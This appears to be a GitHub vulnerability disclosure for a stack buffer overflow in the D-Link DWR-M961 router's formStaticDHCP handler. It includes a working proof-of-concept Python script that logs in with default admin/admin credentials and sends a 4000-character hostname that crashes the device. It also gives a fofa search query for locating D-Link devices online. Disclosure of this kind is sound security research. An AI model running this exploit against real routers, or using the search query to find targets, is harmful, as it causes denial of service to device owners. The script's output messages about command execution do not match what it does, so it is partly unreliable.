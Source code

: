 # D-link DWR-M961 has a Buffer overflow vulnerability

## Product Information

- Device: D-link DWR-M961
- Manufacturer's website information：https://www.dlink.com.cn/

![CleanShot 2025-04-08 at 21 52 47@2x](https://github.com/user-attachments/assets/c11c338a-69f4-4860-bbf3-bdd7050fc328)

## Vulnerability Description

Saved in the /boafrm/formStaticDHCP module of the boa server of DWR_M961_V1_1_36_upgrade
In the authorization interface, the determined parameters were concatenated without string length check, resulting in a stack overflow

![CleanShot 2025-04-08 at 21 54 03@2x](https://github.com/user-attachments/assets/a09d7efe-bb1c-413e-b485-d75b4e7b2029)

fofa:"D-Link"

![CleanShot 2025-04-08 at 21 56 25@2x](https://github.com/user-attachments/assets/d6a33d5d-29bd-43e7-be57-0b0d2d28a1a0)

## Payload

Saved in the /boafrm/formStaticDHCP module of the boa server of DWR_M961_V1_1_36_upgrade
In the authorization interface, the determined parameters were concatenated without string length check, resulting in a stack overflow

```attact.py```
```
import requests
import time
import sys
if __name__ == '__main__':


          

    if len(sys.argv) != 2:
        print("usage: python attack.py [url] [cmd]")
    url = sys.argv[1]


    data = {
        "Language":"en-us",
        "username":"admin",
        "password":"admin",
        "submit-url":"/login.htm"
    }
    res = requests.post(url + '/boafrm/formLoginSetup', data=data)
    cookies = res.cookies
    res = requests.get(url + '/tcpip_staticdhcp.htm')


  

    for cookie in cookies:
        print("Name:", cookie.name, "Value:", cookie.value)


    data = {

        "submit-url": "/tcpip_staticdhcp.htm",
        "addRsvIPFlag": "aaaa",
        "static_dhcp": "1111",
        "hostname": "x"*4000,
    }

    res = requests.post(url + '/boafrm/formStaticDHCP', data=data , cookies=cookies)
    cookies = res.cookies

  
    if res.status_code == 400:
        print("[+] Command execute ok!")
    else:
        print("[-] Command execute failed!")

```
![CleanShot 2025-04-08 at 21 59 56@2x](https://github.com/user-attachments/assets/ed504d3e-9930-4feb-8c48-50f551eb4281)

After executing attact.py, the device crashed directly. Due to the serious harm of the vulnerability, the actual test did not test Internet assets.
![CleanShot 2025-04-08 at 22 00 22@2x](https://github.com/user-attachments/assets/00177b04-a69d-4710-9451-1de32341b9c7)

![CleanShot 2025-04-08 at 22 00 49@2x](https://github.com/user-attachments/assets/42a745a5-06b6-4ab5-a154-9df74ee97111)

